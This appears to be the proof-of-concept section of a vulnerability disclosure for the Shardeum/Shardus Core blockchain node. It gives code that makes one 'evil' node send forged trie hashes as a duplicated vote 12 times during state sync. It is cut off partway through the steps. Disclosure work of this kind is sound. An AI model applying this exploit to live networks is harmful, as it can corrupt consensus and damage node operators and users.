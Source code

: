 ## Proof of concept
## Proof of Concept

Download locally Shardus Core repo and Shardeum's repo locally.

Apply the following patch to the Shardeum repo:

```
git apply debug-10-nodes.patch
```

Now point Shardeum to use the local copy of Shardu's Core as instructed in the README.md file of Shardeum's codebase.

In your local copy of Shardeum, open the file `src/state-manager/AccountPatcher.ts` and replace the following snippet of code from L3227 to L3228:

```
        const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
        promises.push(promise)
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3227-L3228

With this one:

```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via internal`);
          let evilMessage = messageEntry.message;
          for (let i = 0; i < evilMessage.nodeHashes.length; i++) {
            evilMessage.nodeHashes[i].hash = `helloWorld${i}`;
          }
          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', evilMessage)
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
          promises.push(promise)
        }
```

Then replace the following snippet of code from L3216 to L3223:

```
        const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
          [messageEntry.node],
          InternalRouteEnum.binary_sync_trie_hashes,
          syncTrieHashesRequest,
          serializeSyncTrieHashesReq,
          {}
        )
        promises.push(promise)
```
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3216-L3223
